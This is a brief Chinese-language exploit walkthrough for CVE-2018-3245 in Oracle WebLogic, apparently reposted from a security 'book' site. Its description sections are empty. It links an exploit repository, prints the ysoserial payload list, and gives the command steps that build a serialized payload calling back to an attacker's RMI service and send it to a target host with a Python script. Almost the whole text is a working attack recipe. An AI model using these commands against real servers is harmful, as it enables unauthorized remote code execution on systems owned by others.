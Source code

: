 # （CVE-2018-3245）

> 原文：[http://book.iwonder.run/0day/Weblogic/（CVE-2018-3245）.html](http://book.iwonder.run/0day/Weblogic/（CVE-2018-3245）.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

[https://github.com/ianxtianxt/CVE-2018-3245](https://github.com/ianxtianxt/CVE-2018-3245)

### Step 1

`java -jar ysoserial-cve-2018-3245.jar`

```
WHY SO SERIAL?
Usage: java -jar ysoserial-cve-2018-3245.jar [payload] '[command]'
Available payload types:
     Payload         Authors   Dependencies
     -------         -------   ------------
     CVE_2018_2893_1 @mbechler
     CVE_2018_2893_2 @mbechler
     CVE_2018_2893_3 @mbechler
     CVE_2018_3245   @mbechler
     JRMPClient      @mbechler
     Jdk7u21         @frohoff 
```

### Step 2

`java -jar ysoserial-cve-2018-3245.jar CVE_2018_3245 "[RMI_SERVICE_IP]:[PORT]" > poc5.ser`

### Step 3

`python weblogic.py [TARGET_HOST] [PORT] poc5.ser`

